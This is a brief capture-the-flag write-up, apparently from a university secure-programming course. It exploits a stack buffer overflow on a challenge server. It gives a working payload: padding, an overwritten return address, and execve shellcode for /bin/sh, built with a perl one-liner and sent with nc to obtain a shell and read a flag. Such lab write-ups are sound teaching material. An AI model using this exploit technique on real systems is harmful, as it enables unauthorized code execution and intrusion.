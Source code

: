the address of char[] "bbb" = 0xffffcd60

```
$ nc secprog.cs.nctu.edu.tw 10101
bbb
Your input is: (0xffffcd44) bbb
```

EIP = garbage(24) + 1byte = 0xffffcd44 + 28 = 0xffffcd60

```
In [7]: hex(0xffffcd44 + 28)
Out[7]: '0xffffcd60'
```

exploit = garbage + EIP + shellcode

```
$ perl -E 'say "a"x24 ."\x60\xcd\xff\xff". "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > test

$ cat test - | nc secprog.cs.nctu.edu.tw 10101
cat /home/bof/flag1
SECPROG{HelloOverflow}
```

Appendix:

shellcode from here
http://shell-storm.org/shellcode/files/shellcode-827.php
